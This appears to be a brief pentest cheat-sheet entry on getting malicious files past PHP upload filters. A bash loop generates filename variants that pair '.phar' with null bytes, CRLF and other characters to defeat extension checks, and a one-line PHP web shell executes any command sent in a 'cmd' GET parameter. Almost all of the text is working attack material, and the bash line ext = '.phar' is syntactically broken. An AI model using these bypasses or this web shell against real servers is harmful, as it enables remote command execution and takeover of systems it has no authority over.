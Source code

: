 Escape both whitelist and blacklist checks for php servers
```bash
ext = ".phar";
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
        echo "test$char$ext.jpg" >> wordlist.txt
        echo "test$ext$char.jpg" >> wordlist.txt
        echo "test.jpg$char$ext" >> wordlist.txt
        echo "test.jpg$ext$char" >> wordlist.txt
done
```

Example test.php

```php
<?php echo(shell_exec($_GET['cmd'])); ?>
```
